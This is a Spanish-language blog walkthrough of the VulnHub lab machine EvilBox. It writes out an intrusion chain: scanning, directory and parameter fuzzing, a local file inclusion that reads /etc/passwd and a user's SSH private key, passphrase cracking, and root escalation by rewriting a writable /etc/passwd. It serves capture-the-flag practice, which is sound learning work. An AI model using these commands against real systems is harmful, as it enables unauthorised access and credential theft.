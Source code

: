 ```yaml
---
layout: post
title: "EvilBox"
date: 2024-05-15 17:35:23
category: sample
vm: vulnhub
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnhub/vulnhub.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> EvilBox </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong><a href="https://www.vulnhub.com/entry/evilbox-one,736/"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnhub/EvilBox/host.png){:.margin}

**1\.** Detectamos dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/vulnhub/EvilBox/arp.png){:.margin}

**2\.** Escaneo puertos y servicios activos.

`sudo nmap -p- --open -T5 -sCV -sS --min-rate=5000 -Pn -n 192.168.1.21 -oN reportScan`

![img](/notas/public/img/vulnhub/EvilBox/nmap.png){:.margin}

**3\.** Tenemos la pagina Apache por defecto.

`http://192.168.1.21:80/`

![img](/notas/public/img/vulnhub/EvilBox/80.png){:.margin}

**4\.** Hago fuzzing de directorios y archivos.

`gobuster dir -u http://192.168.1.21/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,php,js,txt`

![img](/notas/public/img/vulnhub/EvilBox/gobuster.png){:.margin}

**5\.** Reviso el fichero y tengo un usuario potencial.

`http://192.168.1.21/robots.txt`

![img](/notas/public/img/vulnhub/EvilBox/robots.png){:.margin}

**6\.** Si vamos a secret no hay nada.

`http://192.168.1.21/secret/`

![img](/notas/public/img/vulnhub/EvilBox/secretnull.png){:.margin}

**7\.** Hago fuzzing a este directorio, encontramos un archivo.

`gobuster dir -u http://192.168.1.21/secret/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,php,js,txt`

![img](/notas/public/img/vulnhub/EvilBox/gobustersecret.png){:.margin}

**8\.** No tenemos nada visual.

`http://192.168.1.21/secret/evil.php`

![img](/notas/public/img/vulnhub/EvilBox/evilnull.png){:.margin}

**9\.** Hago fuzzing de posibles parametros de ejecucion remota de comandos(RCE), sin exito.

`wfuzz -c --hc=404 --hl=0 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt 'http://192.168.1.21/secret/evil.php?FUZZ=id'`

![img](/notas/public/img/vulnhub/EvilBox/wfuzznull.png){:.margin}

**10\.** Hago fuzzing en busca de parametros para incluir archivos locales(LFI).

`wfuzz -c --hc=404 --hl=0 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt 'http://192.168.1.21/secret/evil.php?FUZZ=/etc/passwd'`

![img](/notas/public/img/vulnhub/EvilBox/wfuzzcommand.png){:.margin}

**11\.** Vemos que es posible incluir archivos locales.

`http://192.168.1.21/secret/evil.php?command=/etc/passwd`

![img](/notas/public/img/vulnhub/EvilBox/etcpasswd.png){:.margin}

**12\.** Presiono ctrl+u y filtro para ver usuarios disponibles.

`view-source:http://192.168.1.21/secret/evil.php?command=/etc/passwd`

![img](/notas/public/img/vulnhub/EvilBox/users.png){:.margin}

**13\.** Apuntamos a la clave privada del usuario.

`http://192.168.1.21/secret/evil.php?command=/home/mowree/.ssh/id_rsa`

![img](/notas/public/img/vulnhub/EvilBox/idrsa.png){:.margin}

_\- ctrl + u para copiar de mejor forma._

![img](/notas/public/img/vulnhub/EvilBox/idrsaview.png){:.margin}

**14\.** Guardo la clave en un archivo.

`nano key`

![img](/notas/public/img/vulnhub/EvilBox/key.png){:.margin}

**15\.** Uso [RSAcrack](https://github.com/d4t4s3c/RSAcrack) para obtener un passphrase (secuencia de palabras u otro texto para acceder).

`RSAcrack -w /usr/share/wordlists/rockyou.txt -k key`

![img](/notas/public/img/vulnhub/EvilBox/passphrase.png){:.margin}

**16\.** Me conecto por ssh como usuario mowree.

`ssh -i key mowree@192.168.1.21`

![img](/notas/public/img/vulnhub/EvilBox/ssh.png){:.margin}

**17\.** Busco archivos sudoers sin mucho exito.

`sudo -l`

`find / -perm -4000 2>/dev/null`

![img](/notas/public/img/vulnhub/EvilBox/sudoers.png){:.margin}

**18\.** Escalando privilegios a superusario.

_1- Veo que tengo permisos para escribir en el passwd_

`ls -l /etc/passwd`

![img](/notas/public/img/vulnhub/EvilBox/lslpasswd.png){:.margin}

_2- Quito la X (contraseña) para acceder como root sin contraseña_

`cat /etc/passwd`

`nano /etc/passwd`

![img](/notas/public/img/vulnhub/EvilBox/catpasswd.png)
![img](/notas/public/img/vulnhub/EvilBox/nanopasswd.png)

_3- Intentamos acceder como root pero nos sigue pidiendo la contraseña_

`su root`

![img](/notas/public/img/vulnhub/EvilBox/surootfail.png){:.margin}

_4- Genero una contraseña personalizada y luego lo agrego al passwd_

`openssl passwd -1 micontra`

`nano /etc/passwd`

![img](/notas/public/img/vulnhub/EvilBox/generatepass.png){:.margin}
![img](/notas/public/img/vulnhub/EvilBox/passwdadd.png){:.margin}

_5- Accedemos como root con la nueva contraseña (micontra)

`su root`

![img](/notas/public/img/vulnhub/EvilBox/root.png){:.margin}


<br>

<span class="finish">_Finalizado._</span>